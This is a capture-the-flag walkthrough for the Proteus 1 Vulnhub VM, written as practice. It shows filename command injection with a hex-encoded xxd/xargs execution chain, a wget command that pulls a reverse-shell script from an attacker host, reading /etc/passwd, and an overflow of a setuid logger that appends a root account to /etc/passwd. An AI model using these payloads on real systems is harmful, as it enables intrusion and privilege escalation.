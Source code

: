 # Proteus 1 Vulnhub Walkthrough

## Intro

Below you will find a walkthrough of the Proteus 1 VM. This was a fun and challenging machine. This page is full of fun spoilers, so if you're 
still attemping to root the machine, try harder :). Without further ado, let's dive in. 

## Download and Find It

Download the Proteus VM from [VulnHub](https://www.vulnhub.com/entry/proteus-1,193/), load it up, and pick your favorite tool. For quick identification, I use nmap.  

`nmap 192.168.2.0/24 -sP Starting Nmap 7.70 ( https://nmap.org )  `  
`Nmap scan report for Proteus (192.168.2.180)Host is up (0.23s latency).`

## Start Enumeration

I use a series of scripts to gather most of the information for me. Reconscan by Mike Czumak does an nmap script and starts work on additional modules depending on what ports are determined to be open. There are three main ports open: 22, 80, and 5355

> PORT     STATE SERVICE REASON         VERSION  
> 22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
> | ssh-hostkey:   
> |   2048 40:3e:c5:6f:dc:63:c5:af:43:51:28:5c:05:f5:98:c2 (RSA)  
> | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwD5BkuUf9zDQ1+TkrK0K9VffoH9cCm9OPa215nFtfOejQkf7k3ppxkKqZxlbsOZje5pp9y5gv4EMeAatn1BL2KbMlT96UW0tcFyC8uRJdFITpd1LnzusucVvpP5qa29gyNVJrx/scsdE9bIwB++toL4kSbX40kbUA4u+26qqKXyPaaO7SMo0VxM+7E4l5ZXIV9kfVo6SYcCTHo/WG48iSrbe1UGQg3VR0xxtU9OZg/oiS7BHvqracFTn71Obp+KaN6KA8R3NKQcxA+FSlr1jOVmr3q1b6++RAij4jajwafC1iu0tcy9WkhTrXBLbtmPJ2WI4/8cKO4zhuW0Z2eieD  
> |   256 bb:9c:b0:3c:ff:48:8a:2b:37:d2:fe:2e:78:ce:8c:a9 (ECDSA)  
> | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFLxp5pS3QOLUV+Mfsyeak4GLeciDrUVshZbJEzKKGu/IPOxzNzkVna0IcfGCyRfzfJp1/R6I3k4CdKj6wD2Xo4=  
> |   256 ff:85:4e:91:29:da:d1:1b:b3:11:26:5b:d8:c0:7a:f8 (EdDSA)  
> |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDA1x1iCaJYag2vwfBSvDU1ffJ+WtKs4kWCJe/mLxBFm  
> 80/tcp   open  http    syn-ack ttl 64 Apache httpd  
> | http-methods:   
> |_  Supported Methods: GET HEAD  
> |_http-server-header: Apache  
> |_http-title: Proteus | v 1.0  
> 5355/tcp open  llmnr?  syn-ack ttl 1  

Nikto and Dirb scans are kicked off for port 80. Let's continue exploring the website.

## Proteus

Fire up Burp and head to the web page. 

![Proteus_home](https://github.com/jlreiter/Proteus1/blob/master/imgs/proteus_homepage.png)
<link href="{{ "blob/master/imgs/proteus_homepage.png" | https://github.com/jlreiter/Proteus1/blob/master/imgs/proteus_homepage.png }}" rel="stylesheet">

First notes are that there is a file upload, which is always fun to play with, and a login. 
Some quick auth bypass tries and sqlmap bear no fruit, so I focus on the main function and upload some files. If you upload something 
that doesn't fit the MIME type, Proteus gets mad at you and rejects. When you get a successful upload, Proteus brings you to 
the /samples page. 

![Proteus_successful_upload](https://github.com/jlreiter/Proteus1/blob/master/imgs/default_sucessful_upload.png)

Proteus changes our file name to a base64 encoded value, runs strings, and runs objdump on our file. That's nice of them. I can also 
see under objdump our file name (stored in /home/malwareadm/samples/). 

Looking at the POST in Burp, we have name="file"; and filename="file.bin" that we can mess with. 

![Burp_submit_request](https://github.com/jlreiter/Proteus1/blob/master/imgs/burp_submit_request.png)

I tried messing around wtih base64 encoded filenames first, but it's always better to keep it simple. Test for command injection in the 
filename parameter. filename="file.bin;id" works when you reload your webpage. 

![Id_cmd_inj_test](https://github.com/jlreiter/Proteus1/blob/master/imgs/id_cmd_inj_test.png)

## Messing With Command Injection

This part gave me quite a bit of trouble. The site takes the parameter of filename (currently set to file.bin;id), converts it to a 
random string (and keeps the extension if possible), and then runs base64 on it. It is useful that we know the name of our file as we 
can use it to access our own payloads on the server if  need be. 

I needed to generate a 'bad characters' list as some commands would not pass through. The website makes this pretty simple and fails 
obviously when testing. 

**Good chars**

![good_chars](https://github.com/jlreiter/Proteus1/blob/master/imgs/good_chars.png)

**Bad chars**

![bad_chars](https://github.com/jlreiter/Proteus1/blob/master/imgs/bad_chars.png)

Most of the commands that would give us further access require either '/' for files or a '.' for an ip address. I could open a port 
with nc, but I couldn't actually connect or interact with it afterwards. Looking back at the good character list, we have access to 
pipe. Essentially, if we can string together a set of commands, encoded or otherwise, we can create complex commands for execution.

After much trial and error I'm left with the following: `echo <hex encoded command> | xxd -r -p | xargs -i{} sh -c '{}'`

Taking hex encoded values, I can pass it to xxd (which also handles the encoding), and finally pass it to xargs which can handle the 
execution by bassing to sh. It was easy passing encoded values; however, they wouldn't execute (or if they did it was blind). 
I also ran into an issue that the server changes the filename parameter to all lower case. Initially I messed with xargs -I, 
but the server didn't like it. The xargs -i[replace] functionality is apparently deprecated (check man) in favor of -I, so I'm glad 
I had a version (4.7.0) that still had it. 

## Arbitrary Command Injection

It's easy to create hex encoded commands. I also created a quick script to help double check my work and possibly handle other use 
cases (though be wary of my shaky script abilites). Let's check again to see everything working. Here is the payload with 
'cat /etc/passwd'

![etc_passwd_cmd_injection](https://github.com/jlreiter/Proteus1/blob/master/imgs/etc_passwd_cmd_injection.png)

Now we can try to put a reverse shell in. The current account doesn't have write access to the web directory, so I needed to put it 
somewhere else. wget supports this with -O. `wget -O /tmp/simpleshell.py http://<IP ADDR>/simpleshell.py`
Encode it, send it, and double check the file was recieved. You can always look at your own apache access.log to see if the GET was 
successful, or you can 'ls' the /tmp directory. 

![already_exec_shell](https://github.com/jlreiter/Proteus1/blob/master/imgs/already_executable_shell.png)

So now all I have to do is throw up a listner and execute the shell.

![connect](https://github.com/jlreiter/Proteus1/blob/master/imgs/successful_rshell_connect.png)

## >_Terminal

Once inside you can explore around to your heart's content. There are some config files with credentials and a test admin login that 
can be used for the web page. There is even a RSA private key (password protected) (see some stuff in /imgs/interesting_snip\*). Keep 
exploring and you'll eventually find a quaint file: admin_login_logger. Check it's permissions and notice anything special? 
The sticky bit is set and the owner is root. I nc it over to my machine for further testing. 

admin_login_logger takes a parameter and writes it to a log file. 

![logger_test](https://github.com/jlreiter/Proteus1/blob/master/imgs/logger_test_input.png)

Nothing too special, but user input is a fickle thing. I generated a junk pattern and pass it into the logger to see interesting 
effects. 

![overflow](https://github.com/jlreiter/Proteus1/blob/master/imgs/logger_overflow.png)

An overflow occurs and I actually overwrite the file location and file name. Cool. So I have the ability to write to any file as 
root with a certain space for a payload. A few things to note about the overflow: 
 - it starts user input with a new line
 - the user input is appended to the end of the file
 - the user has limited space for the payload
 - the user has limited space in the file name for the path and file
 - the pattern offset is 456 based on the name of the file created when I hit the first overflow 
 
With these notes in mind, I can craft a payload. I fire up python interpreter for some quick work.  
`def pad(len):`  
`    pad="A"*len`  
`    return pad`  
  
`def gen():`  
`    payload=userInput + pad(patternCustomLen-len(userInput)) + fileToOverwrite`  
`    print payload`  

I initially thought I could overwrite the /etc/passwd file and remove the root account password, but this is when I found that 
the overflow just appends user input to the end. It also doesn't handle new lines very well either. Another easy thing to do is 
add an account to the machine. I crafted a user without a password and the machine still wouldn't let me su. 

Then, hashed a password (I used openssl passwd), created a user, su ... and fail because the overflow overwrote the : shell : 
section of /etc/passwd and the machine didn't know what to give me. 

![almost_final_payload](https://github.com/jlreiter/Proteus1/blob/master/imgs/almost_final_userInput_payload.png)

![failed_login](https://github.com/jlreiter/Proteus1/blob/master/imgs/failed_proteus_login_root.png)
 
Finally, here is the user input section of the final payload: `<username>:<password>:0:0::/tmp/`

![fina_payload](https://github.com/jlreiter/Proteus1/blob/master/imgs/final_userInput_payload.png)
 
Now to su <username>, type the password, and pop to a root shell.
 
![proteus_root](https://github.com/jlreiter/Proteus1/blob/master/imgs/successful_proteus_login_root.png)
 
Now you can find the flag and display it. 
 
![flag](https://github.com/jlreiter/Proteus1/blob/master/imgs/flag.png)
 
##  Final comments

Overall I had a lot of, albeit frustrating, fun. I needed the practice and learned some things along the way. 
The system gives a lot of leeway to the user because it executes commands in so many places and even grants them execute 
rights (see nice_proteus_exec_help\* in imgs). 
Crafting the original injection is probably the hardest part. Now onto the next one.
